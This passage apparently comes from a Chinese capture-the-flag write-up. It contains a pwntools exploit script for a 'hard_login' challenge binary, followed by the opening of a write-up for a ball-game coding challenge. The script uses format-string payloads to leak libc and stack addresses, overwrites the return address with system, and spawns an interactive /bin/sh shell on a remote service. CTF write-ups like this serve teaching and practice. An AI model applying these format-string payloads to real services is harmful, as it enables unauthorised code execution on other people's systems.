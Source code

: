 ```python
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    sys_addr = u32(data[0:4]) + libc_sys - libc_printf
    print hex(sys_addr)
    io.sendlineafter('Password:','xx')
    #----------------------------get ret addr----------------------
    payload = "%35$d|||"
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    data = unsigned(int(data))
    ret_addr = data + 0x34
    print ret_addr
    io.sendlineafter('Password:','xx')
    
    #----------------------------cover ret-------------------------
    payload = p32(ret_addr) + p32(ret_addr + 2) + "%" + str((sys_addr & 0x0000ffff) - 8 ) +"c%11$hn" + "%" + str(((sys_addr & 0xffff0000) >> 16) - (sys_addr & 0x0000ffff) + 65536) + "c%12$hn"
    io.sendlineafter('Username:',payload)
    io.sendlineafter('Password:','ll')

    sh_addr = ret_addr - 0xd0 + 36
    payload = p32(ret_addr + 8) + p32(ret_addr + 10) + "%" + str((sh_addr & 0x0000ffff) - 8 ) +"c%11$hn" + "%" + str(((sh_addr & 0xffff0000) >> 16) - (sh_addr & 0x0000ffff) + 65536) + "c%12$hn"
    io.sendlineafter('Username:',payload)
    io.sendlineafter('Password:','ll')
    #----------------------------retern----------------------------
    addr = 0x804a04c
    payload =  "%13$s|||" + p32(addr) + "ABCDEFGHIJKLMNOPQRSTUVWX/bin/sh"
    io.recvuntil('Username:')
    io.sendline(payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    io.sendlineafter("Password:",data)
    io.interactive()
if __name__ == '__main__':
    ip = '10.112.108.77'
    port = 2336
    io = remote(ip,port)
    #io = process('./hard_login.bak')
    #gdb.attach(io,'b *0x80487FF')
    leak(io)
```



## Coding

### ballgame -- SHawnHardy

弹球游戏，step n是让时间流逝n秒，move n是接球板瞬移到n位置。

首先我想到的方法是先step 1判断出球的运动轨迹，然后直接模拟出怎么弹球。

但是这个游戏的弹球判定太迷了，撞击后移动的方向没有个明确的规则。感觉一个个找，再写进去，再debug会累死，所以放弃了预判运动轨迹。
